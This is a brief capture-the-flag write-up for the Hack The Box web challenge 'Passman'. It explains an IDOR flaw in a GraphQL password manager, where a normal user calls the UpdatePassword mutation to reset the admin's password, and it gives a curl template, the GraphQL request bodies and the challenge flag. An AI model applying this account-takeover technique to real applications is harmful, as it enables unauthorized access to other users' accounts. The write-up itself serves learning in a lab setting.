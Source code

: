 # 4 - Passman

The solution is to log inside the app as normal user and change the password for the admin.

There are no checks in the code about it, so it is possible.

curl command for testing

```
curl -H "Content-Type: application/json" --request POST --data '<payload>' http://167.172.50.208:32288/graphql
```

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

### graphql request format

Login

```
{"query":"mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }","variables":{"username":"test","password":"test"}}
```

AddPhrase

```
{"query":"mutation($recType: String!, $recAddr: String!, $recUser: String!, $recPass: String!, $recNote: String!) { AddPhrase(recType: $recType, recAddr: $recAddr, recUser: $recUser, recPass: $recPass, recNote: $recNote) { message } }","variables":{"recType":"Web","recAddr":"a","recUser":"a","recPass":"a","recNote":"a"}}
```

UpdatePassword (like Login)

```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"test","password":"test"}}
```

